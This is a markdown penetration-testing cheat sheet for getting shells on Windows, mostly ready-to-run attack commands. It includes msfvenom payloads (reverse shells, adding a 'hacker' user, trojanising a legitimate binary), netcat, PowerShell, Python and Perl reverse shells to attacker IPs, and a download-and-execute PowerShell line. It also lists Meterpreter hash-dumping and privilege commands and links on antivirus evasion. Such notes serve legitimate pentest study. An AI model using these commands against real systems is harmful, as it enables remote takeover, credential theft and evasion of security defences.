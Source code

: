 # Windows Shells 
## Contents
- [Windows Shells](#windows-shells)
  * [Contents](#contents)
  * [Checklist](#checklist)
  * [Test Connection with ping](#test-connection-with-ping)
  * [Web Shells](#web-shells)
  * [Reverse Shell Commands](#reverse-shell-commands)
    + [File Transfers](#file-transfers)
    + [Msfvenom](#msfvenom)
    + [Netcat](#netcat)
    + [Powershell](#powershell)
    + [Powercat](#powercat)
    + [Socat](#socat)
    + [Python](#python)
    + [Perl](#perl)
  * [Antivirus Evasion](#antivirus-evasion)
  * [Resources](#resources)

## Checklist 
Remember to check for AV before uploading common payloads! 
- [ ] Can you exec .NET commands or Powershell as well? 
- [ ] Web Shells 
- [ ] Generate a payload - msfvenom or use nc/socat/powercat
- [ ] Upload payload and invoke 
- [ ] Antivirus evasion 

## Test Connection with ping  
    tcpdump -i [interface] icmp   
    ping 127.0.0.1 
    powershell -c "Test-Connection 127.0.0.1"

## Web Shells 
[White winter wolf Linux and Windows web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) 

[Nishang Invoke-Powershell Script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) 
[ConPty shell](https://github.com/antonioCoco/ConPtyShell)  

## Reverse Shell Commands 
Most likely you will need an exe payload as other payloads aren't usually stable / powershell Execution-Policy is often restricted. 
Generate exe with msfvenom, upload nc, socat, powercat. Find upload point / code execution point to download and execute. 
[Reverse Shell Cheatsheet](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet)    
### File Transfers 
Upload pages, certutil, powershell

    powershell Invoke-WebRequest -Uri http://192.168.119.149:8888/nc.exe -OutFile C:\xampp\htdocs\nc.exe  
    
### Msfvenom 
[Reference](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/) 

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
    msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	
    msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	
    msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
    msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
   
Add a user in windows with msfvenom: 

    msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe   
    
Embed a payload within a legitimate binary:    

    msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 --platform windows LHOST=10.10.0.10 LPORT=4444 -o tmp.exe -k -x 'Name.exe'   
    
### Useful Meterpreter Commands      
    
    help
	   hashdump    
    getuid   
    ps   
    migrate <pid>    	
    search -f <file name>
	   Shell
	   getsystem
    Load python (or other extension), kiwi      

### Netcat
upload static binary nc.exe and invoke 

    nc.exe -nv 192.168.119.149 53 -e C:\WINDOWS\system32\cmd.exe 
    
Persistence: use -L for "listen harder"  

### Powershell 
[Powershell reverse shell scripts](https://github.com/ivan-sincek/powershell-reverse-tcp)  

    from cmd.exe, run powershell -c "payload"

    $client = New-Object System.Net.Sockets.TCPClient("192.168.119.149",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    
    powershell -exec bypass -c "iwr('http://192.168.0.48:8000/Invoke-PowershellTcp.ps1')|iex" 

Bind shell (run on Windows then connect from Kali)

    $listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()
    
    
### Powercat 
Powershell version of netcat 
[Powercat](https://github.com/besimorhino/powercat)  


### Socat   
[reference](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)   
cmd.exe,pipes

### Python  

    C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 53)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
    
    
### Perl 

    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:53");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'  
    
    
## Antivirus Evasion  
[PHP payload encoder](https://www.gaijin.at/en/tools/php-obfuscator#result) 

[Example - obfuscating payload to get a reverse shell on Windows](https://medium.com/@defsecone/evading-windows-defender-using-obfuscation-techniques-2494b2924807) 


## Resources  

[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 

[Payload All the Things Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 

[Reverse Shell Cheatsheet](https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet)  

